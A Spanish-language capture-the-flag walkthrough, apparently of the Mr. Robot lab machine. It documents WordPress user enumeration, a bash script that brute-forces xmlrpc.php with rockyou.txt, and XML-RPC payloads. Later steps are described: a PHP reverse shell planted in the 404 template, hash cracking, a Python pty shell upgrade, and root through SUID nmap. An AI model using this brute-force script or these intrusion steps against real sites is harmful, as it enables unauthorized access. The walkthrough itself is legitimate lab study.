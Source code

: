 Hacemos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230419170126.png]]

Y esta es la web que corre por el puerto 80:
![[Mis apuntes/ANEXOS/Pasted image 20230419170359.png]]

Y también vemos que el puerto 443 está abierto, por lo que funciona con HTTPS:
![[Mis apuntes/ANEXOS/Pasted image 20230505122341.png]]

Vamos a hacer fuzzing, y podemos encontrar directorios web típicos de wordpress como el wp-content o license:
![[Mis apuntes/ANEXOS/Pasted image 20230505130753.png]]

Entramos en el directorio de license, y abajo del todo nos encontramos con una contraseña en base64:
![[Mis apuntes/ANEXOS/Pasted image 20230505130839.png]]
La decodificamos:
![[Mis apuntes/ANEXOS/Pasted image 20230505130912.png]]

Vemos también que se trata de wordpress, por lo que yo se que hay un directorio que será el de wp-admin, por lo que probamos y funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230505123239.png]]

Y vemos que si ponemos un usuario que no existe, no va a funcionar, pero en cambio si ponemos un usuario que sí existe nos dice que la contraseña no es correcta, pero que el usuario sí, por lo que ya sabemos que el usuario es Elliot:
![[Mis apuntes/ANEXOS/Pasted image 20230505123413.png]]

Vemos que si ponemos estas credenciales, ya estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230505131025.png]]

No obstante, también podríamos hacer un ataque de fuerza bruta al fichero xmlrpc.xml. [[conocimiento/conocimiento/Hacking/Hacking Generico/Hacking Web/Hacking WordPress|Hacking WordPress]] de esta forma, por lo que primero lo enumeramos en el navegador:
![[Mis apuntes/ANEXOS/Pasted image 20230505125232.png]]
Vamos a hacerle una petición por POST y veremos que funciona correctamente:
![[Mis apuntes/ANEXOS/Pasted image 20230505125413.png]]

Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Mis apuntes/ANEXOS/Pasted image 20230421133725.png]]

Y nos dicen que tenemos que tramitar esto:
![[Mis apuntes/ANEXOS/Pasted image 20230421133752.png]]
```php
<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

Por tanto pegamos este código en un fichero xml:
![[Mis apuntes/ANEXOS/Pasted image 20230421133907.png]]

Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress y vemos que funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230505125633.png]]

Pero este es el más importante, porque aquí es donde podemos hacer el ataque de fuerza bruta:
![[Mis apuntes/ANEXOS/Pasted image 20230505125655.png]]

Y podemos volver a editar el fichero xmlrpc pero esta vez añadiendo unas credenciales y veremos a ver qué nos muestra:
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
![[Mis apuntes/ANEXOS/Pasted image 20230505131241.png]]

Donde vemos que nos indica que las credenciales son correctas:
![[Mis apuntes/ANEXOS/Pasted image 20230505131319.png]]

En este punto podríamos hacer un ataque de fuerza bruta contra este login utilizando el siguiente script:
```php
#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Mis apuntes/ANEXOS/Pasted image 20230421143424.png]]

-------------------------------------------------------------

Una vez dentro de la máquina, podemos ir a la parte de appearence e ir a la parte de editor, para ediutar las distintas plantillas de la web:
![[Mis apuntes/ANEXOS/Pasted image 20230506090051.png]]

Y ahora en github buscamos el código de cómo generar un php malicioso que nos proporcione una reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230506090127.png]]

Copiamos el contenido de este documento en la plantilla de 404 error found:
![[Mis apuntes/ANEXOS/Pasted image 20230506090157.png]]

Y ahora si nos ponemos en escucha con netcat y ponemos alguna url errónea en el buscador, habremos recibido la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230506090226.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230506090236.png]]

Una vez dentro, nos encontramos con este archivo:
![[Mis apuntes/ANEXOS/Pasted image 20230506092540.png]]

El cual podemos pasarlo por john the ripper o por crackstation, donde vamos a obtener una contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230506092608.png]]
Ahora, si intentamos cambiar de usuario empleando estas credenciales, nuevamente tenemos el problema de que la consola nos cierra la posibilidad de introducir datos, imposibilitando el poder realizar cualquier acción.
![[Mis apuntes/ANEXOS/Pasted image 20230506095346.png]]

No obstante, podemos ejecutar un comando de Python para arreglar este problema, donde nos vamos a ganar una bash un poco más funcional donde sí podremos poner la contraseña del usuario robot; y el comando es este:
```python
python -c "import pty;pty.spawn('/bin/bash')"
```
![[Mis apuntes/ANEXOS/Pasted image 20230506095546.png]]

Una vez siendo este usuario, podemos ver los permisos SUID, donde vemos que podemos ejecutar nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230506095752.png]]

Y lo interesante es que nmap tiene un modo interactivo, donde podemos ejecutar comandos; y como podemos ejecutar nmap como root, ya seremos usuarios root de esta forma:
![[Mis apuntes/ANEXOS/Pasted image 20230506095901.png]]

En cuanto a la primera flag, está dentro del directorio web de robots.txt:
![[Mis apuntes/ANEXOS/Pasted image 20230506100158.png]]
